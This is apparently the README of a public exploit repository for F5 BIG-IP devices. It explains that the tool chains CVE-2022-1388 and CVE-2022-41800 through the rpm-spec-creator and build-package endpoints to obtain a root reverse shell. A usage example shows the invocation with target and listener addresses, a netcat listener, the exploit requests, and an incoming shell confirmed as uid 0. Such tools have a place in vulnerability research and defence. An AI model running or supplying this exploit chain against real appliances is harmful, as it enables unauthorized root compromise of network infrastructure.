 # Tippa My Tongue

Tippa My Tongue is an exploit that uses CVE-2022-1388 and CVE-2022-41800 to establish a `root` reverse shell on F5 BIG-IP products. Most CVE-2022-1388 exploits achieve code execution using `/mgmt/tm/util/bash`. However, this exploit uses `/mgmt/shared/iapp/rpm-spec-creator`, followed by `/mgmt/shared/iapp/build-package`. This approach was first suggested by [Ron Bowes](https://github.com/rbowes-r7) in this AttackerKB [analysis](https://attackerkb.com/topics/SN5WCzYO7W/cve-2022-1388/rapid7-analysis). Although, to my knowledge, no one ever published a CVE-2022-1388 exploit that did just that.

For more details, read the [VulnCheck](https://vulncheck.com/blog/new-cve-2022-1388) writeup.

## Usage Example:

```
albinolobster@mournland:~/tippa-my-tongue$ python3 tippa-my-tongue.py --rhost 10.9.49.191 --lhost 10.9.49.194

   ▄▄▄▄▄▪   ▄▄▄· ▄▄▄· ▄▄▄·     • ▌ ▄ ·.  ▄· ▄
   •██  ██ ▐█ ▄█▐█ ▄█▐█ ▀█     ·██ ▐███▪▐█▪██
    ▐█.▪▐█· ██▀· ██▀·▄█▀▀█     ▐█ ▌▐▌▐█·▐█▌▐█▪
    ▐█▌·▐█▌▐█▪·•▐█▪·•▐█ ▪▐▌    ██ ██▌▐█▌ ▐█▀·.
    ▀▀▀ ▀▀▀.▀   .▀    ▀  ▀     ▀▀  █▪▀▀▀  ▀ •
         ▄▄▄▄▄       ▐ ▄  ▄▄ • ▄• ▄▌▄▄▄ .
         •██  ▪     •█▌▐█▐█ ▀ ▪█▪██▌▀▄.▀·
          ▐█.▪ ▄█▀▄ ▐█▐▐▌▄█ ▀█▄█▌▐█▌▐▀▀▪▄
          ▐█▌·▐█▌.▐▌██▐█▌▐█▄▪▐█▐█▄█▌▐█▄▄▌
          ▀▀▀  ▀█▄▀▪▀▀ █▪·▀▀▀▀  ▀▀▀  ▀▀▀

                 CVE-2022-1388
                 CVE-2022-41800

                       🦞

[+] Executing netcat listener
[+] Using /usr/bin/nc
Listening on 0.0.0.0 1270
[+] Sending initial request to rpm-spec-creator
[+] Sending exploit attempt request to build-package
Connection received on 10.9.49.191 47152
bash: no job control in this shell
[@localhost:NO LICENSE:Standalone] BUILD # pwd
pwd
/var/config/rest/node/tmp/BUILD
[@localhost:NO LICENSE:Standalone] BUILD # id
id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0
[@localhost:NO LICENSE:Standalone] BUILD #
```

## Acknowledgements

* Ron Bowes: for discovering these endpoints and sharing them with the world
* [RHCP](https://www.youtube.com/watch?v=E1FNkf3MLKY): for being funky

